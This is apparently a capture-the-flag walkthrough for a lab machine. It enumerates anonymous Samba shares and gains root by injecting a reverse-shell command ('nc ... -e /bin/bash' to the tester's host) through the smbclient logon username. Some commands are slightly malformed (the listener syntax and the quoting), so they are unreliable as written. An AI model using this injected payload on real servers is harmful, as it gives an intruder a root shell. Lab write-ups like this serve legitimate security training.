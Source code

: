 # Solution


Scan the host

We see that we can login to frp anonymously. However there is nothing inside and we don't have write access.

We also have anonymous access on samba, this time with write permissions.
Enumerate the shares
```
> smbclient -L 10.10.10.3
```

Connect to the resource
```
>smbclient //10.10.10.3/tmp
```

Once inside we can set up a reverse shell using the logon command and the listener in our host mahcine (nc -lnvp 10.10.14.6)
```
logon "/=nc 10.10.14.6 9001 -e /bin/bash`"
```

The reverse shell directly gives us access to root.
The user flag is under /home/makis
